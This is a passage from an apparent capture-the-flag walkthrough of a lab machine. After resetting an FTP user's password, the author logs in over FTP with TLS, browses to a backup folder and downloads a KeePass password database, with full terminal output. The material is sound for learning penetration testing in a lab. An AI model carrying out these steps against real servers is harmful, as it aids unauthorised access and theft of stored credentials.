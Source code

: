 Now we can change the password for this ftp user.

![passftp](12.png)

Now let's login to the ftp server.

```terminal
[★]$ ftp 10.10.11.32                 
Connected to 10.10.11.32.
220 ProFTPD Server (sightless.htb FTP Server) [::ffff:10.10.11.32]
Name (10.10.11.32:sirius): web1
550 SSL/TLS required on the control channel
ftp: Login failed
```

The server only accepts ssl connection, we can use `ftp-ssl`.

```terminal
[★]$ ftp-ssl sightless.htb         
Connected to sightless.htb.
220 ProFTPD Server (sightless.htb FTP Server) [::ffff:10.10.11.32]
Name (sightless.htb:sirius): web1
234 AUTH TLS successful
[SSL Cipher TLS_AES_256_GCM_SHA384]
200 PBSZ 0 successful
200 Protection set to Private
[Encrypted data transfer.]
331 Password required for web1
Password:
230 User web1 logged in
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful
150 Opening ASCII mode data connection for file list
drwxr-xr-x   3 web1     web1         4096 May 17  2024 goaccess
-rw-r--r--   1 web1     web1         8376 Mar 29  2024 index.html
226 Transfer complete
ftp> cd goaccess
250 CWD command successful
ftp> ls
200 PORT command successful
150 Opening ASCII mode data connection for file list
drwxr-xr-x   2 web1     web1         4096 Aug  2 07:14 backup
226 Transfer complete
ftp> cd backup
250 CWD command successful
ftp> ls
200 PORT command successful
150 Opening ASCII mode data connection for file list
-rw-r--r--   1 web1     web1         5292 Aug  6 14:29 Database.kdb
226 Transfer complete
ftp> get Database.kdb
local: Database.kdb remote: Database.kdb
200 PORT command successful
150 Opening BINARY mode data connection for Database.kdb (5292 bytes)
226 Transfer complete
5292 bytes received in 0.37 secs (14.0138 kB/s)
```
